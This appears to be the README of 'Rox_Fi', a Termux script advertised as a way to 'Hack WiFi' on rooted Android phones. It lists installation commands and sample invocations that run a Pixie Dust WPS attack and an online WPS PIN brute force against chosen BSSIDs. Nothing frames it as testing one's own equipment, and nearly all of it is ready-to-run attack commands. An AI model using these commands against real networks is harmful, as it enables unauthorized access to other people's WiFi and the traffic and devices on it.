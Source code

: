 ## Rox_Fi

### Hack WIfi Using Termux! (Requires Root)

<p align="center"><img src="https://1.bp.blogspot.com/-9lzzogymHUQ/YS5hEDy_jyI/AAAAAAAAAoM/FuivT5DSF5sJbDBcWXrNtNbSF0Dnr5nHwCLcBGAsYHQ/s2340/Screenshot_2021-08-31-22-59-07-343_com.termux.jpg"></p>

### Installation :

```bash

$ apt update && apt upgrade

$ pkg install -y root-repo

$ pkg install -y git tsu python wpa-supplicant pixiewps iw

$ git clone https://github.com/piomrox/Roxfi

$ cd Rox

$ chmod +x roxfi.py

$ sudo python roxfi.py --help

```

#### Example : `sudo python roxfi.py -i wlan0 -K`

#### Note: 

**First turn off your Wifi.**

- Show avaliable networks and start Pixie Dust attack on a specified network.

- `sudo python roxfi.py -i wlan0 -K`

- - Start Pixie Dust attack on a specified BSSID:

`sudo python roxfi.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`

- Launch online WPS bruteforce with the specified first half of the PIN:

- `sudo python roxfi.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`

### Troubleshooting

**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**

